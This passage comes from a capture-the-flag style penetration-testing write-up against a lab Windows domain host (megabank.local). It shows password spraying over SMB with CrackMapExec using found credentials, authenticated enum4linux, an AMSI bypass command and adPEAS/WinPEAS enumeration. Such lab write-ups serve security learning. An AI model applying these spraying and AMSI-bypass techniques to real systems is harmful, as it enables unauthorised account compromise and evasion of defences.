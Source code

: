 * <mark style="color:yellow;">marco:Welcome123!</mark>
* Attempted SMB authentication with new creds with no luck
* Okay, we have a password, let's password spray with the users that we enumerated earlier

### &#x20;  melanie:Welcome123!

* We have valid SMB credentials for <mark style="color:yellow;">melanie:Welcome123!</mark>

## Exploitation

### Password Spraying SMB

CrackMapExec

```
crackmapexec smb 10.129.60.74 -u users -p 'Welcome123!'

SMB         10.129.60.74    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

* We have valid SMB credentials for <mark style="color:yellow;">melanie:Welcome123!</mark>

### Enum4Linux (Authenticated)

```
enum4linux -a -u "melanie" -p "Welcome123!" 10.129.60.74
```

* Let's upload adPEAS and see what we can see

## Privilege Escalation

melanie -> ryan

### Local enumeration

### Bypass AMSI

```
Bypass-4MSI
```

### adPEAS usage

```
Import-Module .\adPEAS.ps1
Invoke-ADPeas
```

* Unfortunately, there was nothing useful

### WinPEAS Usage

* I could also not find anything of use
* I believe we need to conduct manual enumeration as there could be something lurking in the file system that we missed with automated enumeration tools
